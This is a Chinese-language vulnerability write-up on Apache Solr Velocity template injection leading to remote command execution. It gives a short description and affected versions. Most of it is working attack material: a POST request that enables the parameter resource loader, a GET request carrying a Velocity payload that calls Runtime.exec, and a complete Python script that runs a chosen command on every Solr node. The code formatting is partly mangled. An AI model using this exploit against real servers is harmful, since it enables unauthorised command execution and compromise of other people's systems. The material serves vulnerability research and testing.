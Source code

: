 ```yaml
---
title: Apache Solr Velocity模版注入远程命令执行
id: zhfly2823
---
```


# Apache Solr Velocity模版注入远程命令执行

## 一、漏洞简介

该漏洞的产生是由于两方面的原因：

1、当攻击者可以直接访问Solr控制台时，可以通过发送类似/节点名/config的POST请求对该节点的配置文件做更改。
2、2Apache Solr默认集成VelocityResponseWriter插件，在该插件的初始化参数中的params.resource.loader.enabled这个选项是用来控制是否允许参数资源加载器在Solr请求参数中指定模版，默认设置是false。
当设置params.resource.loader.enabled为true时，将允许用户通过设置请求中的参数来指定相关资源的加载，这也就意味着攻击者可以通过构造一个具有威胁的攻击请求，在服务器上进行命令执行。

## 二、漏洞影响

经过测试，目前影响Apache Solr 8.1.1到8.2.0版本。

推测影响全版本Apache Solr。

## 三、复现过程

### 手动检测

手动检测访问http://www.0-sec.org/8983/solr/#/进入主界面，单击左侧的Core Selector查看集合名称

![image](../img/c8739256fe00e7d893aa92e9efc49b77.png)

#### 1、post发送请求

```
POST /solr/test/config HTTP/1.1
Host: solr:8983
Content-Type: application/json
Content-Length: 259 `{

“update-queryresponsewriter”: {

“startup”: “lazy”,

“name”: “velocity”,

“class”: “solr.VelocityResponseWriter”,

“template.base.dir”: “”,

“solr.resource.loader.enabled”: “true”,

“params.resource.loader.enabled”: “true”

}

}` 
```

#### 2、执行系统命令

```
GET /solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: localhost:8983 
```

### 使用脚本检测

```
auth: @l3_W0ng
version: 1.0
function: Apache Solr RCE via Velocity template
usage: python3 script.py ip [port [command]]
               default port=8983
               default command=whoami
note:
Step1: Init Apache Solr Configuration
Step2: Remote Exec in Every Solr Node
"""

import sys

import json

import time

import requests

class initSolr(object):

```
timestamp_s = str(time.time()).split('.')
timestamp = timestamp_s[0] + timestamp_s[1][0:-3]

def __init__(self, ip, port):
    self.ip = ip
    self.port = port

def get_nodes(self):
    payload = {
        '_': self.timestamp,
        'indexInfo': 'false',
        'wt': 'json'
    }
    url = 'http://' + self.ip + ':' + self.port + '/solr/admin/cores'

    try:
        nodes_info = requests.get(url, params=payload, timeout=5)
        node = list(nodes_info.json()['status'].keys())
        state = 1
    except:
        node = ''
        state = 0

    if node:
        return {
            'node': node,
            'state': state,
            'msg': 'Get Nodes Successfully'
        }
    else:
        return {
            'node': None,
            'state': state,
            'msg': 'Get Nodes Failed'
        }

def get_system(self):
    payload = {
        '_': self.timestamp,
        'wt': 'json'
    }
    url = 'http://' + self.ip + ':' + self.port + '/solr/admin/info/system'
    try:
        system_info = requests.get(url=url, params=payload, timeout=5)
        os_name = system_info.json()['system']['name']
        os_uname = system_info.json()['system']['uname']
        os_version = system_info.json()['system']['version']
        state = 1

    except:
        os_name = ''
        os_uname = ''
        os_version = ''
        state = 0

    return {
        'system': {
            'name': os_name,
            'uname': os_uname,
            'version': os_version,
            'state': state
        }
    } 
```

class apacheSolrRCE(object):

```
def __init__(self, ip, port, node, command):
    self.ip = ip
    self.port = port
    self.node = node
    self.command = command
    self.url = "http://" + self.ip + ':' + self.port + '/solr/' + self.node

def init_node_config(self):
    url = self.url + '/config'
    payload = {
        'update-queryresponsewriter': {
            'startup': 'lazy',
            'name': 'velocity',
            'class': 'solr.VelocityResponseWriter',
            'template.base.dir': '',
            'solr.resource.loader.enabled': 'true',
            'params.resource.loader.enabled': 'true'
        }
    }
    try:
        res = requests.post(url=url, data=json.dumps(payload), timeout=5)
        if res.status_code == 200:
            return {
                'init': 'Init node config successfully',
                'state': 1
            }
        else:
            return {
                'init': 'Init node config failed',
                'state': 0
            }
    except:
        return {
            'init': 'Init node config failed',
            'state': 0
        }

def rce(self):
    url = self.url + ("/select?q=1&amp;&amp;wt=velocity&amp;v.template=custom&amp;v.template.custom="
                      "%23set($x=%27%27)+"
                      "%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+"
                      "%23set($chr=$x.class.forName(%27java.lang.Character%27))+"
                      "%23set($str=$x.class.forName(%27java.lang.String%27))+"
                      "%23set($ex=$rt.getRuntime().exec(%27" + self.command +
                      "%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+"
                      "%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end")
    try:
        res = requests.get(url=url, timeout=5)
        if res.status_code == 200:
            try:
                if res.json()['responseHeader']['status'] == '0':
                    return 'RCE failed @Apache Solr node %s\n' % self.node
                else:
                    return 'RCE failed @Apache Solr node %s\n' % self.node
            except:
                return 'RCE Successfully @Apache Solr node %s\n %s\n' % (self.node, res.text.strip().strip('0'))

        else:
            return 'RCE failed @Apache Solr node %s\n' % self.node
    except:
        return 'RCE failed @Apache Solr node %s\n' % self.node 
```

def check(ip, port=‘8983’, command=‘whoami’):

system = initSolr(ip=ip, port=port)

if system.get_nodes()[‘state’] == 0:

print(‘No Nodes Found. Remote Exec Failed!’)

else:

nodes = system.get_nodes()[‘node’]

systeminfo = system.get_system()

os_name = systeminfo[‘system’][‘name’]

os_version = systeminfo[‘system’][‘version’]

print('OS Realese: %s, OS Version: %s\nif remote exec failed, ’

‘you should change your command with right os platform\n’ % (os_name, os_version))

```
 for node in nodes:
        res = apacheSolrRCE(ip=ip, port=port, node=node, command=command)
        init_node_config = res.init_node_config()
        if init_node_config['state'] == 1:
            print('Init node %s Successfully, exec command=%s' % (node, command))
            result = res.rce()
            print(result)
        else:
            print('Init node %s Failed, Remote Exec Failed\n' % node) 
```

if **name** == ‘**main**’:

usage = ('python3 script.py ip [port [command]]\n ’

'\t\tdefault port=8983\n ’

‘\t\tdefault command=whoami’)

```
if len(sys.argv) == 4:
    ip = sys.argv[1]
    port = sys.argv[2]
    command = sys.argv[3]
    check(ip=ip, port=port, command=command)
elif len(sys.argv) == 3:
    ip = sys.argv[1]
    port = sys.argv[2]
    check(ip=ip, port=port)
elif len(sys.argv) == 2:
    ip = sys.argv[1]
    check(ip=ip)
else:
    print('Usage: %s:\n' % usage) 
``` 
```